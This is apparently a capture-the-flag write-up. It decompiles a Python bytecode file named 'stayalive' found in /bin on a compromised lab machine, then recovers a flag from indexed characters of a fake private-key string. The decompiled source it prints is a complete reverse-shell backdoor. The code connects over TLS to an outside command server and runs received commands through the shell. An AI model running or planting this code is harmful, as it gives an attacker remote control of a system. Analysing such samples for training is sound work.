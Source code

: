 # Changing our locks and dumping old Keys

![](https://i.imgur.com/rWoGcFl.png)

- Searching the os after pwning it, I found a file called `stayalive` in `/bin` and using command `file stayalive`, it appears to be a python 3.8 byte-compiled file

- to decompile the python folder I used [Decompyle++](https://github.com/zrax/pycdc), the installation guide is easy then I used it to extract the source code from the original file but it generated a c code and for some reason, it didn't work as expected so a teammate guided me to a tool called uncompyle6

```python

import socket, subprocess, os, ssl

def sczsz():
    global c2domain
    global c2port
    global s
    global ssls
    global tt
    try:
        tt = [29, 33, 35, 42, 44, 57, 66, 72, 81, 85, 88, 89, 97, 103, 128, 135, 144, 152, 195, 199, 203, 207, 217, 231, 236, 239, 245, 260, 266, 273, 292, 310, 319, 337, 354, 357, 366, 377, 385, 414, 418, 421]
        c2domain = 'c2.m1cr0s0ft.hax'
        c2port = 64318
        s = socket.socket()
        ssls = ssl.wrap_socket(s, ssl_version=(ssl.PROTOCOL_TLSv1_2))
    except socket.error as OO00OOOO0O00O00OO:
        try:
            try:
                print('socket creation error: ' + str(OO00OOOO0O00O00OO))
            finally:
                OO00OOOO0O00O00OO = None
                del OO00OOOO0O00O00OO

        finally:
            OO00OOOO0O00O00OO = None
            del OO00OOOO0O00O00OO


def cscsz():
    try:
        ssls.connect((c2domain, c2port))
        xbx = '--- BEGIN PRIVATE KEY ---\t\tfCfnaEldanaKJdiga{enDjsim28kgdblec2kjte47JmiecSJD42LJdkenJdra00bp\t\tcSbrdkeCisa4laXtfevdgAA5ochm1Quejd_i7tySu4tea8VcadrCcm9jvc34DnBkl\t\tvTkMtdLdte6Mgfd4Lmueoal6mlsuy3Voem_P2hun0jsfne3ndLu0de1jfrdNw9dje4\t\tcEudnmelop_5kneDf8pma3mdkiCoiw30meMmcrura2iN_suwk5kQmmeoA2mkljapod9\t\tcyXen2mtnFkl3uaEo7iuoriCd36unVec4kwjB3osduAs8idoN9iidMsp1JysWyd2\t\tudtm1eDemDciA3iljeCyenN8Moiu26aQiemCi9usjekL5CyejocuIe3yw}6nCaf\t\t--- END PRIVATE KEY ---'
        ssls.send(str.encode(str(os.getcwd()) + '<' + ''.join([xbx[x] for x in tt]) + '>' + ' > '))
    except socket.error as O0OO000O0OO0000OO:
        try:
            try:
                print('socket conn error: ' + str(O0OO000O0OO0000OO))
            finally:
                O0OO000O0OO0000OO = None
                del O0OO000O0OO0000OO

        finally:
            O0OO000O0OO0000OO = None
            del O0OO000O0OO0000OO


def zszszs():
    while True:
        O00OO000O00OOO0O0 = ssls.recv(1024)
        O00OO000O00OOO0O0 = O00OO000O00OOO0O0.decode('utf-8').strip()
        print('received ' + O00OO000O00OOO0O0)
        if O00OO000O00OOO0O0[:2] == 'cd':
            os.chdir(O00OO000O00OOO0O0[3:])
            ssls.send(str.encode(str(os.getcwd()) + ' > '))
        else:
            if len(O00OO000O00OOO0O0) > 0:
                OO0000OO0O0000OO0 = subprocess.Popen(O00OO000O00OOO0O0, shell=True, stdout=(subprocess.PIPE), stderr=(subprocess.PIPE), stdin=(subprocess.PIPE))
                O000000000O0OOO00 = OO0000OO0O0000OO0.stdout.read() + OO0000OO0O0000OO0.stderr.read()
                O0000O0O0OO0O0OO0 = str(O000000000O0OOO00.decode('utf-8'))
                ssls.send(str.encode(O0000O0O0OO0O0OO0 + str(os.getcwd()) + ' > '))
                if len(O0000O0O0OO0O0OO0.split('\n')) > 2:
                    OO0O00OOO00OO0OO0 = 2
                else:
                    OO0O00OOO00OO0OO0 = 0
                print('Sent: ' + OO0O00OOO00OO0OO0 * '\n' + O0000O0O0OO0O0OO0)
        if not O00OO000O00OOO0O0:
            break

    s.close()


def main():
    sczsz()
    cscsz()
    zszszs()


if __name__ == '__main__':
    main()
```

- this took me some time but we need to focus only on two things this array `tt = [29, 33, 35, 42, 44, 57, 66, 72, 81, 85, 88, 89, 97, 103, 128, 135, 144, 152, 195, 199, 203, 207, 217, 231, 236, 239, 245, 260, 266, 273, 292, 310, 319, 337, 354, 357, 366, 377, 385, 414, 418, 421]` and `xbx = '--- BEGIN PRIVATE KEY ---\t\tfCfnaEldanaKJdiga{enDjsim28kgdblec2kjte47JmiecSJD42LJdkenJdra00bp\t\tcSbrdkeCisa4laXtfevdgAA5ochm1Quejd_i7tySu4tea8VcadrCcm9jvc34DnBkl\t\tvTkMtdLdte6Mgfd4Lmueoal6mlsuy3Voem_P2hun0jsfne3ndLu0de1jfrdNw9dje4\t\tcEudnmelop_5kneDf8pma3mdkiCoiw30meMmcrura2iN_suwk5kQmmeoA2mkljapod9\t\tcyXen2mtnFkl3uaEo7iuoriCd36unVec4kwjB3osduAs8idoN9iidMsp1JysWyd2\t\tudtm1eDemDciA3iljeCyenN8Moiu26aQiemCi9usjekL5CyejocuIe3yw}6nCaf\t\t--- END PRIVATE KEY ---'` this key if we notice carefully we can see that the `tt` is the indeces of char in the key that if printed out together will form a flag so let's write a simple script to do that for us

```python
tt = [29, 33, 35, 42, 44, 57, 66, 72, 81, 85, 88, 89, 97, 103, 128, 135, 144, 152, 195, 199, 203, 207, 217, 231, 236, 239, 245, 260, 266, 273, 292, 310, 319, 337, 354, 357, 366, 377, 385, 414, 418, 421]

xbx = '--- BEGIN PRIVATE KEY ---\t\tfCfnaEldanaKJdiga{enDjsim28kgdblec2kjte47JmiecSJD42LJdkenJdra00bp\t\tcSbrdkeCisa4laXtfevdgAA5ochm1Quejd_i7tySu4tea8VcadrCcm9jvc34DnBkl\t\tvTkMtdLdte6Mgfd4Lmueoal6mlsuy3Voem_P2hun0jsfne3ndLu0de1jfrdNw9dje4\t\tcEudnmelop_5kneDf8pma3mdkiCoiw30meMmcrura2iN_suwk5kQmmeoA2mkljapod9\t\tcyXen2mtnFkl3uaEo7iuoriCd36unVec4kwjB3osduAs8idoN9iidMsp1JysWyd2\t\tudtm1eDemDciA3iljeCyenN8Moiu26aQiemCi9usjekL5CyejocuIe3yw}6nCaf\t\t--- END PRIVATE KEY ---'

for i in tt:
    print(xbx[i],end="")
```

- Flag: flag{b4ckd00rs_4r3_us3ful_f0r_p3rs1st3nc3}